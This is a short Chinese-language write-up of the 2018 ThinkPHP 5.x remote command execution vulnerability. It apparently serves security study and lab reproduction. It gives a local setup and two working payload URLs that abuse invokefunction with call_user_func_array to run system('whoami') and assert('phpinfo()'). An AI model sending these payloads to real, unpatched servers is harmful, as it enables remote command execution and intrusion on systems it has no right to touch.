 # ThinkPHP5.x版本命令执行漏洞分析

## 概述

2018年12月9日，ThinkPHP5.*版本发布安全更新，本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞。

![](./img/1.jpg)

## 漏洞复现

下载官方版
1. http://www.thinkphp.cn/down/1260.html //官网下载ThinkPHP5.0.22完整版
2. PHP‐7.0.12‐NTS + Apache (phpstudy集成环境)

Payload:
`http://localhost/thinkphp5022/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

将thinkphp直接解压放进网站根目录，访问上述Payload触发漏洞，回显出操作人。

![](./img/2.jpg)

或者改成回显phpinfo()

`http://localhost/thinkphp5022/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()`
